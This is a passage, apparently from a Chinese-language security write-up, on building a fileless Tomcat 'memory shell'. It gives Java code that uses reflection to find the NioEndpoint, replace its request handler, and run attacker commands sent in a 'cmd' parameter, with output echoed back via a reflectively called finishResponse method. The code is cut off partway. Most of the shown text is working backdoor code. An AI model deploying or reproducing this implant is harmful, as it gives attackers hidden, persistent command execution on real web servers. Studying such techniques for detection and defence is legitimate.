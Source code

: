 如果将数据写入后，直接执行 handler.process (wrapper, status);，的确能回显，但说到底不够优雅。

既然已经带有 cmd 指令，说明是我们需要处理的恶意请求，执行完命令之后就没必要给容器处理了，直接返回 SocketState.CLOSED 就好

但这个时候又不回显。猜测应该是流没有 flush，之后看看谁调用这个流刷新的方法，发现有个 finishResponse 方法

```plain
Method finshMethod = processor.getClass().getDeclaredMethod("finishResponse");
                finshMethod.setAccessible(true);
                finshMethod.invoke(processor);
```

调用该方法将流刷新，数据成功回显。

完整构造如下

```plain
import org.apache.coyote.Processor;
import org.apache.tomcat.util.net.*;
import java.lang.reflect.Field;
import java.lang.reflect.Method;
import java.nio.ByteBuffer;
import java.util.Set;

public class MyHandler implements AbstractEndpoint.Handler {
    private static AbstractEndpoint.Handler handler;
    private static Processor processor;

    static {
        NioEndpoint nioEndpoint = (NioEndpoint) getNioEndpoint();
        handler = nioEndpoint.getHandler();
        MyHandler myHandler = new MyHandler();
        nioEndpoint.setHandler(myHandler);
        Set<SocketWrapperBase<NioChannel>> connections = nioEndpoint.getConnections();
        for (SocketWrapperBase<NioChannel> c : connections) {
            Object currentProcessor = c.getCurrentProcessor();
            if (null != currentProcessor) {
                processor = (Processor) currentProcessor;
                break;
            }
        }

    }



    public static Object getNioEndpoint() {
        Thread[] threads = (Thread[]) getField(Thread.currentThread().getThreadGroup(), "threads");
        for (Thread thread : threads) {
            if (thread == null) {
                continue;
            }
            if ((thread.getName().contains("Acceptor")) && (thread.getName().contains("http"))) {
                Object target = getField(thread, "target");
                Object jioEndPoint = null;
                try {
                    jioEndPoint = getField(target, "this$0");
                } catch (Exception e) {
                }
                if (jioEndPoint == null) {
                    try {
                        jioEndPoint = getField(target, "endpoint");
                        return jioEndPoint;
                    } catch (Exception e) {
                        new Object();
                    }
                } else {
```